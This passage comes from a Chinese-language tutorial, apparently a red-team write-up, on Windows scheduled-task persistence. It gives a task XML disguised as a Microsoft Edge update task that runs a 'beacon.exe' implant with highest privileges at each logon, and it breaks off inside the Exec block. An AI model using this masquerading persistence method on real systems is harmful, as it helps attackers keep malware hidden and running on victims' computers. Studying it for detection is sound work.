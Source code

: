 -   [Actions](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-actions-tasktype-element)，要执行的操作
    
    -   Exec
        -   Command
        -   Arguments
    
    ![任务计划执行的操作.png](assets/1698895515-5a2823b5e33aae401b57663dd658edeb.png)
    

了解这些标签的含义后，对上面内容做了小小修改，伪装成正常任务。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Author>Microsoft Corporation</Author>
        <Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description>
        <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId>
            <LogonType>InteractiveToken</LogonType>
            <RunLevel>HighestAvailable</RunLevel>
        </Principal>
    </Principals>
    <Settings>
        <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
        <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
        <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
        <IdleSettings>
            <StopOnIdleEnd>true</StopOnIdleEnd>
            <RestartOnIdle>false</RestartOnIdle>
        </IdleSettings>
    </Settings>
    <Triggers>
        <LogonTrigger>
            <StartBoundary>2023-04-26T16:56:00</StartBoundary>
        </LogonTrigger>
    </Triggers>
    <Actions Context="Author">
        <Exec>
            <Command>C:\Users\123\Desktop\beacon.exe</Command>
```